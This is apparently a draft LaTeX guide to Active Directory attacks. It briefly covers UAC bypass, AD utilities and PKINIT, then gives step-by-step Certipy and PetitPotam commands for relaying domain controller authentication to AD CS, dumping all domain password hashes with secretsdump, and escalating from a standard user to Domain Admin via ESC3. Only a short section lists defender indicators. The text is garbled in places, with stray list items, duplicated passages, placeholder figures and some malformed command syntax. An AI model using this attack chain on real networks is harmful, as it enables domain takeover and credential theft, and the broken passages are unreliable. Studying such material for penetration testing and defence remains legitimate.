This section discusses the methods for bypassing User Account Control (UAC) in Windows, highlighting the trade-offs made by Microsoft to reduce user prompts and the implications of allowing certain programs to bypass UAC, which can lead to security vulnerabilities.
\item Introduction to UAC bypass methods and the rationale behind their development
\item Discussion on the risks of allowing programs to bypass UAC, particularly regarding vulnerabilities
\item Demonstration of a recent method to bypass UAC using command prompt and UAC me code
\item Emphasis on the absence of a UAC consent prompt during the bypass process

This section discusses a specific method of bypassing User Account Control (UAC) to gain elevated privileges on a system, detailing the process and implications for forensic analysis and endpoint protection.
\item The attacker successfully gains a privileged reverse shell, allowing them to elevate system access and extract sensitive information
\item The method exploits a vulnerability in the 'computer defaults' application, which can elevate privileges without additional prompts
\item The process leaves traces for forensic analysis, suggesting the need for alert rules to detect future occurrences of similar bypass attempts
\item Each bypass method has unique steps that can serve as signatures for detection by endpoint protection software, although effectiveness may vary across products

This section discusses methods of bypassing User Account Control (UAC) and emphasizes the importance of user awareness in preventing unauthorized access.
\item Skilled attackers can modify code to evade detection by advanced endpoint protection software
\item Raising UAC security levels can eliminate certain bypass methods, although it may result in more prompts for users
\item User education is crucial; users often click through prompts without thinking first, highlighting the need for better awareness
\item Adjusting security policies to require admin credentials for UAC prompts encourages users to consider the significance of their actions
\item Conclude by stressing the importance of not granting admin privileges unless absolutely necessary

\end{itemize}

\section{Active Directory Utilities}
\subsubsection{SIDwalker}
The security administration toolset consisting of three components: \verb|showaccs.exe|, \verb|sidewalk.exe|, and the \textit{\textbf{Security Migration Editor (MMC snap-in).}} The first two examine and modify ACL entries, while the editor maps old SIDs to new ones during AD domain or forest migrations.

\subsubsection{\texttt{repadmin.exe}}
Replication diagnostics tool. Used to check replication consistency between partners, view replication status, trigger replication events, and force Knowledge Consistency Checker (KCC) recalculations.

\subsubsection{\texttt{acldiag.exe}}
Utility for ACL diagnostics. Determines whether users have been granted or denied access to AD objects. Can also reset ACLs on objects back to their default values.

\subsubsection{Active Directory Service Interfaces (ADSI) Edit}
Low-level Active Directory editor, but is very useful. Allows you to add, move,and delete objects directly. Often used for advanced troubleshooting and schema modifications.



 
 








\subsubsection{How the Authentication Works}
The \verb|certipy auth| command uses the certificate to authenticate to the domain via one of these two methods:
\begin{itemize}
    \item \textbf{Kerberos PKINIT:} This is the default method. Certipy uses the certificate and private key to request a Kerberos Ticket Granting Ticket (TGT) from the Domain Controller.
    \begin{itemize}
        \item If successful, Certipy can use the TGT to retrieve the NTLM hash of the targeted user, which can then be used for further attacks such as Pass-the-Hash (PtH).
    \end{itemize}
\item \textbf{Schannel:} An alternative method that opens a secure LDAP (LDAPS) connection to the Domain Controller for authentication using the certificate.
\end{itemize}

\subsubsection{Context in the Attack Chain}
The \texttt{certipy auth} command is a post-exploitation step that an attacker would normally use after obtaining a valid client authentication certificate. The typical attack chain looks like this:
\begin{enumerate}
    \item \textbf{Enumeration:} An attacker uses Certipy's \texttt{find} command to discover vulnerable certificate templates published by the AD CS server.
    \item \textbf{Exploitation:} The attacker then requests a certificate using Certipy's \texttt{req} command, targeting a vulnerable template to obtain a certificate for an account they should not have access to.
    \item \textbf{Authentication:} The attacker then uses the \texttt{certipy auth -pfx} command with the newly obtained \texttt{.pfx} certificate to impersonate the target user.
    \item \textbf{Actions on Objectives:} With the authenticated session, the attacker can move laterally, elevate privileges, and carry out other malicious activities.
\end{enumerate}

\subsection{Kerberos PKINIT Role in AD CS}
\textit{PKINIT,} which stands for \textit{Public Key Cryptography for Initial Authentication in Kerberos}, is an extension to the Kerberos authentication protocol (defined in \textbf{RFC 4556} that uses public key cryptography instead of a shared symmetric key (such as a password hash) for initial authentication.

In a traditional Kerberos setup, a client authenticates to the \textit{\textbf{Key Distribution Center (KDC)}} using a password. Both the client and the KDC share a secret derived from the user's password. PKINIT replaces this password-based method with a more secure Public Key Infrastructure (PKI) system. Here is a basic process of how a PKINIT exchange process works:
\item \textbf{Client request:} the client sends an initial \textit{Authentication Service (AS)} request to the KDC.
        \item The request includes a signed time stamp and an X.509 client certificate that contains the requesting user's public key.
        \item The client uses its corresponding private key to sign the request, proving that it owns the certificate.
\textbf{\item KDC Validation: The KDC receives the request and performs several checks:}
\begin{enumerate}
    \item Validates the client's certificate by checking its signature and ensuring that it was issued by a trusted Certificate Authority (CA).
    \item Verifies the client's signature on the time stamp using the public key from the certificate.
    \item Maps the certificate's identity to the Kerberos principal (the user account).
\end{enumerate}
\textbf{\item Encrypted Reply: If validation and verification succeed, the KDC generates a shared session key and a Ticket Granting Ticket (TGT).}
\begin{enumerate}
    \item The KDC uses its own certificate to sign the reply, proving its authenticity to the client.
    \item It encrypts the session key using an encryption method like \textit{Diffie-Hellman (DH)} or \textit{RSA} encryption and sends it back to the client.
\end{enumerate}
\textbf{\item Client Finalizes: The client receives the reply and performs its own set of validation and verification checks:}
\begin{enumerate}
    \item Validates the KDC signature and certificate using the CA chain.
    \item It uses its private key to decrypt the session key.
    \item With the session key, the client can decrypt the TGT and use it for subsequent Kerberos requests.
\end{enumerate}

\subsubsection{Advantages Over Traditional Kerberos}
Public-key cryptography offers stronger authentication than traditional password-based methods because it is inherently more secure and resistant to password-guessing attacks. Instead of relying on user-generated credentials, it uses mathematically complex key pairs that are extremely difficult to crack.

PKINIT further strengthens security by supporting two-factor authentication through hardware tokens, such as smart cards. This method requires uses to possess a physical device (the smart card) and know a PIN to access their private key (something the user knows), combining something they have with something they know.

Another major advantage is that PKINIT eliminates the need for shared secrets between the Key Distribution Center (KDC) and the client. In traditional setups, both parties must store a common secret, which creates a security risk if the KDC is compromised. With PKINIT, trust is established through a shared Certificate Authority (CA), which reduces the attack surface.

Finally, PKINIT defends against Pass-the-Hash (PtH) attacks and similar attacks that exploit password-equivalent data and encryption material that is stored in memory. Since authentication does not rely on password hashes, attackers are unable to steal what is not there.

Continuing with Step 3, you can also use the Certipy tool to dump secrets from the domain controller using the following command demonstrated below:
\begin{notebox}
\begin{minted}{bash}
certipy auth -pfx <DC_CERTIFICATE.pfx> -target <DC_IP> -action secretsdump
\end{minted}
\end{notebox}
This is a powerful command for a couple of reasons. Completely bypasses password-based authentication. It is stealthy, meaning you do not need to crack any hashes offline or touch the domain controller directly, and the biggest plus is that you now control the DC, which means \textbf{you have pwned the domain.}

\section{Defender Notes}
\subsection{Indicators of Compromise (IOCs)}
When investigating potential abuse of Active Directory Certificate Services (AD CS), certain \textit{Indicators of Compromise (IOCs)} can help you identify malicious activities quickly. These indicators often appear during lateral movement, privilege escalation, or attempts to abuse certificate-based authentication mechanisms such as PKINIT or AD CS misconfigurations. Security teams and defenders should monitor the following IOCs to detect possible exploitation early.
\begin{enumerate}
    \item \textbf{Unexpected certificate requests using high-privileged templates}
Attackers can request certificates using templates like \verb|DomainController|, \verb|Machine|, or \verb|WebEnrollment|, which grants high-level privileges. These templates are often targeted on the ESC1 and ESC6 attack paths. Look for certificate requests from unexpected machines or users-especially those outside typical enrollment patterns.
         \item \textbf{NTLM authentication attempts from domain controllers (DC) to untrusted IP addresses.}
domain controllers should not initiate NTLM authentication to unknown or external IP addresses. Such behavior may signal a relay attack (e.g., PetitPotam) or attempts to exploit NTLM-based weaknesses to obtain ticket-granting certificates or forge authentication paths.
         \item \textbf{Event logs showing EFSRPC calls that resemble PetitPotam behavior (Event ID 541)}
         The PetitPotam technique abuses the Encrypting File System Remote Protocol (EFSRPC) to force authentication from domain controllers. As discussed above, PetitPotam attack events often precede NTLM relay attacks targeting AD CS. Event ID 541 in the \verb|Microsoft-Windows-CertificateServicesClient-Lifecycle-System| log can indicate such activity.
         \item \textbf{Unusual or excessive certificate enrollments in AD CS logs}
         A sudden spike in certificate enrollments, especially by user accounts not typically involved with such activity, could indicate or infer possible exploitation. AD CS logs (\verb|CertSrv| logs) should be monitored for anomalies, including failed enrollments or the use of legacy templates with weak or outdated security settings.
\end{enumerate}
\section{Exploiting AD CS for Relaying Attacks}
The first step is to configure Certipy to relay the incoming connections to the vulnerable certificate authority. Since we plan to relay a domain controller's connection, we need to specify the domain controller template:
\verb|certipy relay -ca {<CERTIFICATE_AUTHORITY_IP_ADDRESS>} - template DomainController|

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy5.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
\importantbox{\textbf{Update 1/11/2024}
During an engagement, I ran into an unexpected twist: the organization had modified their default certificate templates. Specifically, they had replaced the template \verb|DomainController| with a custom one.

As a result, while I could still force the Domain Controller to authenticate to me, every attempt to request a \verb|DomainController| certificate had failed with an error. After spending more time troubleshooting than I would like to admit, I finally used Certipy to enumerate the available templates and discovered that \verb|DomainController| was no longer listed.

The fix was simple: switch the template name in my Certipy relay command to match the organization's custom template.

\textbf{TL;DR:} If you are getting errors when requesting a \verb|DomainController| certificate, check the enabled templates-the default may have been replaced.}

Now that Certipy is properly configured to relay connections using the correct template, we can move on to forcing the domain controller to authenticate against our server with PetitPotam.
\begin{notebox}
\begin{minted}{python}
    python3 PetitPotam.py -u {USERNAME} -p {PASSWORD} {LISTENER_IP_ADDRESS} {TARGET_IP_ADDRESS}}
\end{minted}
\end{notebox}
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{petitpotam.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
Once Certipy captures the incoming authentication, it relays it to the Certificate Authority (CA) and requests a certificate on behalf of the domain controller's machine account. This is dangerous because the certificate can then be used for Kerberos authentication, effectively allowing the attacker to impersonate the domain controller itself. With that level of access, the attacker can issue Kerberos tickets, impersonate any account in the domain, and ultimately take full control of the Active Directory environment.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{petitpotam1.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
\section{Converting a Captured Certificate (CRT) File to a Trusted Certificate (CER)}
To convert a captured certificate (CRT) file to a trusted certificate (CER) file, you can use the OpenSSL command-line tool. Here is a step-by-step guide:
\begin{enumerate}
    \item Open a command prompt or terminal and navigate to the directory where your CRT file is located.
    \item Run the following command:
\end{enumerate}
\begin{notebox}
\begin{minted}{bash}
openssl x509 -in input.crt -out output.cer -outform der
\end{minted}
\end{notebox}
Replace \verb|"input.crt"| with your captured certificate file and \verb|"output.cer"| with the desired output file name.
    3. Press Enter to execute the command. This will convert the CRT to CER format
    4. The new CER file will be created in the same directory as your original CRT file.
\importantbox{\textbf{Note:} Make sure OpenSSL is installed on your system and added to your Windows operating system's \texttt{PATH}. If not, you can download it from \texttt{https://www.openssl.org/} and follow the installation instructions for your given operating system version.}
This command uses the OpenSSLs X.509 utility to convert the certificate from PEM (CRT) to DER (CER) format. The option \verb | -in | specifies the input file; \verb|-out| specifies the output file, and \verb|-outform der| sets the output format to DER.

To authenticate with a certificate and obtain the domain controller's machine account hash using the Certipy tool, follow these steps:
\begin{enumerate}
    \item Install Certipy: You can install it using \texttt{pip} by running \verb| pip install certipy| on your terminal or command prompt.
    \item Run Certipy to scan for certificates on the target machine:
\begin{notebox}
\begin{minted}{bash}
certipy --domain <TARGET_DOMAIN>
\end{minted}
\end{notebox}

\end{enumerate}
Replace \verb|<target_domain>| with the domain name you want to scan.
    3. Certipy will search for certificates and identify potential targets. It may take some time, depending on the number of certificates you find.
    4. Once you have identified a certificate that you want to use, run the following command to authenticate with it:
\begin{notebox}
\begin{minted}{bash}
certipy --auth <CERTIFICATION_PATH> --dc-ip <DOMAIN_CONTROLLER_IP>
\end{minted}
\end{notebox}
Replace \verb|<certificate_path>| with the path to the certificate file you want to use, and \verb|<domain_controller_ip>| with the IP address of your target domain controller.
    5. Certipy will attempt to authenticate using the certificate and provide the machine account hash, if successful. 
    Here is an example:
\begin{notebox}
\begin{minted}{bash}
certipy --auth /path/to/certificate.crt --dc-ip 192.168.1.100
\end{minted}
\end{notebox}
This command authenticates with the certificate at \verb|/path/to/certificate.crt| and uses the domain controller at \verb|192.168.1.100.|
    6. If authentication is successful, Certipy will output the machine account hash.
    \importantbox{\textbf{Note:} Make sure you have the necessary permissions and rights to run this command. Also, ensure that you have the correct permissions to access the certificate and domain controller.}
    \begin{figure}
        \centering
        
\includegraphics[width=0.75\linewidth]{certipy6.png}
        \caption{Enter Caption}
        \label{fig:placeholder}
    \end{figure}
\begin{notebox}
\subsection{Key Points}
\begin{itemize}
    \item The hash on the "Successfully authenticated as" line is the one you are looking for - the one that matters. It confirms that you have relayed the DC machine account and do not hold usable credentials.
    \item Everything below (RID, groups, privileges, flags) is context from querying AD with the knowledge that identity-defenders can use it to spot what privileges were abused.
    \item The long noise of the SMB versions does not add much to the core finding. Those usually just indicate protocol support-I have truncated them here for clarity.
    \end{itemize}
\end{notebox}

Once we have obtained the certificate, we can use Certipy to authenticate. This step proves ownership of the domain controller's machine account and extracts its corresponding NTLM hash:
\begin{notebox}
\begin{minted}{bash}
certipy auth -username <USERNAME> -domain <DOMAIN> -dc-ip <DC_IP> -pfx <Certificate.pfx>
\end{minted}
\end{notebox}
\textbf{➡️ Result:} Certipy returns the machine account hash for our target Domain Controller.

With that hash in hand, we can pass it on to other tools. For example, using Impacket's \textbf{Secretsdump}, we can extract all user password hashes from Active Directory, as shown below:
\begin{notebox}
\begin{minted}{bash}
impacket-secretsdump <DOMAIN>/<USERNAME>@<DC_IP> -hashes <NTLM_Hash>
\end{minted}
\end{notebox}
This works because the hash can be used anywhere that supports Pass-the-Hash authentication-including tools like CrackMapExec (CME), \verb|smbclient|, or custom Kerberos operations.
\textbf{➡️ Result:} Once the dump is complete, we now have the credentials for all users in the domain.

At this stage, we have full control of the Windows domain-the ability to impersonate any user, escalate privileges, and maintain persistence indefinitely.

\section{Exploit 2: ESC3}
To further investigate the domain for more misconfigurations that Certipy can discover and exploit, we began adding new certificate templates to the domain. During the setup of one of these templates, we enabled the "Supply in the request" option. When we did, a warning dialog appeared that noted that this configuration could introduce security issues.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certtemp.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
Since our goal was to explore and deliberately test for exploitable misconfigurations, seeing that option available was exactly what we wanted.

\importantbox{\textbf{Note:} If you are testing in a lab, remember that after creating a new template you must also configure the Certificate Authority to issue it-otherwise it will not be usable.}

With the new certificate template in place, the next step is to have Certipy enumerate certificate templates and flag them for vulnerabilities (e.g., certificates that are vulnerable to abuse). Using the same discovery command from our earlier attack, Certipy flagged and identified the new template as being exposed and vulnerable to the ESC3 issue:
\begin{notebox}
\begin{minted}{bash}
certipy find -dc-ip <DC_IP> -u <USERNAME> -p <PASSWORD> -vulnerable
\end{minted}
\end{notebox}
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy7.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
Exploiting this misconfiguration allows an attacker to escalate privileges from a regular domain user to a domain administrator. The process begins by requesting a new certificate from the vulnerable template. To do this, the attacker must already have valid credentials for a standard domain user.
\begin{notebox}
\begin{minted}{bash}
certipy req -dc-ip <DC_IP> -u <Username> -p <Password> -target-ip <CA_IP> -ca <CA_Server_Name> -template <Vulnerable_Template_Name>
\end{minted}
\end{notebox}
This command submits a certificate request to the Certificate Authority using the specified vulnerable template, which can then be abused to gain elevated access.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy8.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
Once we have obtained the initial certificate from the vulnerable template, the next step is to leverage it for impersonation and then to request a new certificate on behalf of another account in the domain-in this case, the domain administrator. This is possible because the vulnerable template grants us the ability to impersonate other users when submitting certificate requests, or \textit{CSRs - Certificate Signing Requests.}

With Certipy, we can leverage the first certificate to request a User certificate for the administrator account, as such:
\begin{notebox}
\begin{minted}{bash}
certipy req -u <Username> -p <Password> -ca <CA_Server_Name> -target <CA_IP> -template User -on-behalf-of <Domain\Admin_Username> -pfx <Saved_Certificate>
\end{minted}
\end{notebox}
\subsubsection{Breaking Down The Command}
This command requests and retrieves a new User certificate that is valid for the administrator account. At this stage, the certificate is simply acquired-it has not been used yet. You do not yet \textit{use} the certificate-you are just obtaining it. Think of it as forging a digital ID card for the administrator: you now possess it, but you have not "shown it at the door" just yet (e.g., presented it for access).
\begin{itemize}
    \item \verb|-u <Username> -p <Password>:| The original standard user credentials.
    \item \verb|-ca <CA\_Server\_Name> -target <CA\_IP>:| Identifies the Certificate Authority.
    \item \verb|-template User:| Requests a standard User template certificate.
    \item \verb|-on-behalf-of <Domain\\Admin\_Username>:| The critical flag-tells the CA to issue the certificate for the administrator.
    \item \verb|-pfx <Saved\_Certificate>:| Supplies the first certificate, which grants the right to impersonate.
\end{itemize}

The end result is that you have the administrator's certificate file (a \texttt{.pfx}).
\verb|-u <Username> -p <Password>:| The standard domain user credentials with which we started.
\item \verb|-ca <CA_Server_Name> -target <CA_IP>:| Identifies the Certificate Authority (CA) from which we are requesting.
\item \verb|-template User:| Requests a certificate using the built-in User template.
\item \verb|-on-behalf-of <Domain\Admin_Username>:| The key flag tells the CA to issue the certificate for another user (here, the administrator).
\item \verb|-pfx <Saved_Certificate>:| Supplies the previously obtained certificate that grants us the right to impersonate.
➡️ \textbf{Result:} We now hold a valid User certificate for the domain administrator. This certificate can be used to authenticate as that account-effectively escalating our privileges from a low-level domain user to Domain Admin.
\begin{figure}
    \centering
